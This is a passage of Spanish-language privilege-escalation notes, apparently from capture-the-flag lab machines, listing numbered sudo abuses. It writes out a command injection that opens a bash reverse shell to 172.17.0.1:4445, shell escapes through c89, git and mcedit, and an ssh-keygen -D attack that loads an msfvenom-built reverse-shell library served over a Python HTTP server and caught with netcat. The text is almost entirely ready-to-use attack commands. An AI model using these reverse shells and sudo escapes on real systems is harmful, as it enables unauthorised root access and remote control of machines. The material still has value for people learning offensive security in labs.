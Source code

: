 artificio para migrar al usuario metadata 

sudo -u metadata /home/codebad/code "-l /home/metadata/user.txt | bash -c '/bin/bash -i >& /dev/tcp/172.17.0.1/4445 0>&1' "

-------------------------------------------------------------------------------

47.-	/usr/bin/c89

User metadata may run the following commands on 76aa71834ef3:
    (ALL : ALL) /usr/bin/c89

sudo /usr/bin/c89 -wrapper /bin/sh,-s .

-------------------------------------------------------------------------------

48.-	/usr/bin/git

sudo /usr/bin/git -help config

!/bin/sh

!/bin/bash

-------------------------------------------------------------------------------

49.-	/usr/bin/mcedit

sudo /usr/bin/mcedit

Se abre el editor y luego hacemos enter en:

File > user menu > invoke shell

-------------------------------------------------------------------------------

50.-	/usr/bin/ssh-keygen * /opt/

(root) NOPASSWD: /usr/bin/ssh-keygen * /opt/*

sudo ssh-keygen -D ./lib.so

pasos:

en kali

msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.2.15 LPORT=443 -f elf-so -o lib.so

python3 -m http.server 8080

nc -lvnp 443

este archivo lo descargo en tmp de la máquina objetivo con wget o curl

previamente en el objetivo 
con el usuario steve, sudo -l

(decoder) NOPASSWD: /usr/bin/openssl enc *, /usr/bin/tee

cat /tmp/lib.so | sudo -u decoder /usr/bin/tee /opt/decode/lib.so

en objetivo con el usuario ajneya

sudo ssh-keygen -D /opt/decode/lib.so
